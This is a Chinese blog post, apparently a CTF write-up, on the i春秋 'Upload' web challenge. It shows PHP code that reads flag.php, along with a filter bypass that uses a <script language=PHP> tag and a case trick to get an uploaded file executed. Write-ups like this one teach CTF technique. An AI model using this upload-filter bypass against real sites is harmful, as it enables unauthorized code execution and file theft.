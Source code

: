 ```yaml
---

layout: post
title:  CTF竞赛-文件上传
subtitle: 本文为CTF web网络攻防方向，主要记录文件上传的题目
date:   2018-03-25 18:56:31 +0800
author: "Bryce"
header-img:  'images/gallery/sappho-and-alcaeus.jpg'
tags:   [网络安全, CTF]
mathjax: true
---
```


> <cite>Title: Sappho and Alcaeus  
Creator: Lawrence Alma-Tadema  
Creator Lifespan: 1836/1912  
Creator Nationality: Dutch and British  
Date Created: 1881  
Physical Dimensions: w122 x h104.1402 cm  
Type: oil paintings; panel paintings  
Medium: oil on panel  
Artist: Sir Lawrence Alma-Tadema, R.A., O.M.  </cite>  

CTF竞赛题目类型主要包含 `Web 网络攻防` 、 `Reverse 逆向工程` 、 `Pwn 二进制漏洞利用` 、 `Crypto 密码攻击` 、 `Mobile 移动安全`  以及 `Misc 安全杂项` 这六个类别。

本文为web网络攻防方向。

## 赛题

### 初始来源

#“百度杯”CTF比赛# #九月场# #Upload#

### 赛题传送门

<a href="https://www.ichunqiu.com/battalion?t=1" target="_blank">i春秋CTF大本营</a>  

【赛题类型】—>【CTF训练】

【比赛名称】—>【全部】

【题目类型】—>【Web】

选择价值 50pt，类型为 Web，名称为【Upload】的题目：

![ctf-20180324144139821](/images/posts/ctf/ctf-20180324144139821.png)

## 解题过程

进入到靶场环境后，得到如下的初始页面：

![ctf-20180324144309647](/images/posts/ctf/ctf-20180324144309647.png)

根据题目的提示tips：flag在flag.php中，可以推测本题目是想通过上传文件，并通过执行文件读取flag.php源码，来获取flag。

先随意上传一张图片看看效果：

![ctf-20180324145416668](/images/posts/ctf/ctf-20180324145416668.png)

发现**【上传成功!】**是个超链接可以点击，点击后是查看上传文件：

![ctf-20180324145532512](/images/posts/ctf/ctf-20180324145532512.png)

由此得出，可以通过文件上传来构造读取flag.php的源码。

先构造最简单直接的版本：

```php
<?php
$file = fopen("../flag.php", "r");
echo fread($file, filesize("../flag.php"));
fclose($file)
?>
```

上传后，得到

![ctf-20180324150835203](/images/posts/ctf/ctf-20180324150835203.png)

发现并没有执行，并且**php**后缀都被过滤掉了，尝试将 **?php**  使用 **<script>** 绕过，代码中的 **.php** 使用大写绕过：

```php
<script language=PHP>
$file = fopen("../flag.".strtolower("PHP"), "r");
echo fread($file, filesize("../flag.".strtolower("PHP")));
fclose($file)
</script>
```

上传后，得到：

![ctf-20180324151330884](/images/posts/ctf/ctf-20180324151330884.png)

此时并没有输出错误，说明执行成功了，**【F12】查看网页源码**：

![ctf-20180324151407995](/images/posts/ctf/ctf-20180324151407995.png)

至此，得到flag。

## 总结

本题目相对简单，主要考察php文件读取，以及简单的针对关键字过滤的绕过技巧。
